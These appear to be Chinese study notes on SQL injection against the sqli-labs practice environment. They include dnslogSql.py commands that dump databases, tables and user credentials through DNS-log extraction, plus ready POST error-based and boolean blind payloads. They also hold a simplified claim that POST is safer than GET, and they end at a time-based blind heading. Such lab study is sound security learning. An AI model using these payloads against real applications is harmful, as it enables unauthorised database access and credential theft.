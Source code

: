 `python2 dnslogSql.py -u "http://192.168.10.15/sql/Less-9?id=1' and ({}) --+"`

具体命令:

- `python2 dnslogSql.py -u "http://192.168.64.152/sqli-labs/Less-9/?id=1' and ({})--+" --dbs`       #得到表名
- `python2 dnslogSql.py -u "http://192.168.64.152/sqli-labs/Less-9/?id=1' and ({})--+"`        #得到当前表名和用户名

- `python2 dnslogSql.py -u "http://192.168.64.152/sqli-labs/Less-9/?id=1' and ({})--+" -D security --tables`

	#得到表名

- `python2 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users --columns`

	#得到users表的列名

- `python2 dnslogSql.py -u "http://127.0.0.1/sqli-labs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump`

	#获取uses表中的数据



## POST

1.get提交可以被缓存,post不会

2.get提交参数会保留在浏览器历史记录里,post不会

3.get提交可以被收藏为书签,post不行

4.get提交有长度限制,最长2048个字符;post没有长度要求,不是只允许使用ascii字符们还可以使用二进制数据

post提交比get提交更安全



## post报错注入

`uname=admin') union select count(*),concat_ws('~',(select table_name from information_schema.tables where table_schema=database() limit 1,1),floor(rand(0)*2)) as a from information_schema.tables group by a #`

**注意:**因为一次只能查看一行,所以使用`limit`一行一行查看

**工具:**`hackbar`



## post盲注

### 布尔盲注

`passwd=admin&Submit=Submit&uname=aaa' or ascii(substring((select database()),1,1))>=ascii('s') # `

### 时间盲注
